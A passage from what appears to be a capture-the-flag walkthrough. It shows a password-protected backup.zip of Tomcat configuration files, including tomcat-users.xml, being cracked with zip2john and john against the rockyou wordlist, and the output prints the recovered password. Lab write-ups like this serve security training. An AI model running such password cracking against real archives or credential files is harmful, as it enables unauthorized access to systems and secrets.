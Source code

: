 ```bash
   skipping: catalina.policy         incorrect password
   skipping: context.xml             incorrect password
   skipping: catalina.properties     incorrect password
   skipping: jaspic-providers.xml    incorrect password
   skipping: jaspic-providers.xsd    incorrect password
   skipping: logging.properties      incorrect password
   skipping: server.xml              incorrect password
   skipping: tomcat-users.xml        incorrect password
   skipping: tomcat-users.xsd        incorrect password
   skipping: web.xml                 incorrect password
```

It appears that we could grab `backup.zip`, however, it is password protected. Using `zip2john` and `john`, we can try to recover the password.

```bash
┌──(kali㉿kali)-[~]
└─$ zip2john backup.zip > backup.zip.hash
ver 2.0 efh 5455 efh 7875 backup.zip/catalina.policy PKZIP Encr: TS_chk, cmplen=2911, decmplen=13052, crc=AD0C6FDB ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/context.xml PKZIP Encr: TS_chk, cmplen=721, decmplen=1400, crc=59B9F4E7 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/catalina.properties PKZIP Encr: TS_chk, cmplen=2210, decmplen=7276, crc=1CD3C095 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/jaspic-providers.xml PKZIP Encr: TS_chk, cmplen=626, decmplen=1149, crc=748A87A6 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/jaspic-providers.xsd PKZIP Encr: TS_chk, cmplen=862, decmplen=2313, crc=3B44D150 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/logging.properties PKZIP Encr: TS_chk, cmplen=1076, decmplen=4144, crc=1D6C26F7 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/server.xml PKZIP Encr: TS_chk, cmplen=2609, decmplen=7589, crc=F91AC0C0 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/tomcat-users.xml PKZIP Encr: TS_chk, cmplen=1167, decmplen=2972, crc=BDCB08B9 ts=B0E3 cs=b0e3 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/tomcat-users.xsd PKZIP Encr: TS_chk, cmplen=858, decmplen=2558, crc=E8F588C2 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/web.xml PKZIP Encr: TS_chk, cmplen=18917, decmplen=172359, crc=B8AF6070 ts=6920 cs=6920 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

┌──(kali㉿kali)-[~]
└─$ john backup.zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
@administrator_hi5 (backup.zip)
1g 0:00:00:02 DONE (2021-12-22 10:22) 0.4032g/s 4632Kp/s 4632Kc/s 4632KC/s @lexutz..@201187
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
